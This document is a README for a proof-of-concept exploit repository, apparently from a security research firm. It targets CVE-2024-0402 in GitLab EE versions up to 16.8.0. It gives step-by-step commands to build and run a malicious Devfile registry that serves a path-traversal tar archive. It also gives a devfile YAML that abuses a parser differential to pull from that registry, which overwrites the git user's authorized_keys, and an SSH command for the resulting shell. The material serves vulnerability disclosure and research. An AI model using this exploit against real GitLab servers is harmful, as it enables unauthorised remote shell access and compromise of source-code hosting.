 # Malicious Devfile Registry

The project contains a malicious Devfile Registry usable to exploit CVE-2024-0402 in Gitlab.

## The Exploit

A `nodejs:2.2.1` stack is indexed to expose the `archive.tar` file exploiting the path-traversal issue in [registry-support library before v1.1.0](https://github.com/devfile/registry-support/commit/10b01bc136bd082f59b1ac0c91797f4065792d7b).

*tar location*: `malicious-devfile-registry/stacks/nodejs/2.2.1/archive.tar`

It was created using the [evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py) to overwrite the `/var/opt/gitlab/.ssh/authorized_keys` in the target Gitlab Server with the SSH keys under `ssh-keys/` folder in this repo.

```bash
python3 evilarc.py authorized_keys -f authzkeys.tar.gz -p var/opt/gitlab/.ssh/ -o unix
```

Once running, the registry will have the malicious *.tar* added to the fetchable stacks.
See the `index.json` listing it among the stack resources:
```
...
"links": {
          "self": "devfile-catalog/nodejs:2.2.1"
        },
        ...
        "resources": [
          "devfile.yaml",
          "archive.tar"
        ],
...
```

## Reproduction Steps

Configure a Gitlab Instance EE with version <=16.8.0. Enable Workspaces on it following the docs and the extra notes in our dedicated [!exploitable series blogpost](https://blog.doyensec.com/2025/03/13/exploitable-gitlab.html). 

Whenever ready, follow the steps below:

1. Run `docker build -t devfile-index .` in the root of this repo to build the registry container image

2. Run `docker run -d -p 5000:5000 --name local-registrypoc registry:2` to run a local container registry that will be used by the Devfile registry to store the stack. **Note:** you should edit the command to expose it according to your need. For us, it was all happening in a local environment

3. Run `docker run --network host devfile-index` to start the malicious Devfile registry built at step one. **Note:** Like before, edit the run command as you wish to make it reachable by the Gitlab instance

4. Authenticate as developer to the target Gitlab server, then edit the `.devfile.yaml` of a repository you control. The YAML must exploit the parser differential to allow fetching from the malicious registry

```yaml
schemaVersion: 2.2.0
!binary parent:
    id: nodejs
    registryUrl: http://<YOUR_MALICIOUS_REGISTRY>:<PORT>
components:
  - name: development-environment
    attributes:
      gl/inject-editor: true
    container:
      image: "registry.gitlab.com/gitlab-org/gitlab-build-images/workspaces/ubuntu-24.04:20250109224147-golang-1.23@sha256:c3d5527641bc0c6f4fbbea4bb36fe225b8e9f1df69f682c927941327312bc676"
```

5. To trigger the file-write in the Gitlab UI, just start a new Workspace in the edited repo.
After few seconds, the arbitrary file write should happen and the `ssh-keys/pockey.pub` will be added to the `authorized_keys` of the `git` user

6. You should be able to enjoy an unrestricted shell as `git` with
```bash
ssh  -i ssh-keys/pockey git@<YOUR_GITLAB_SERVER>
```
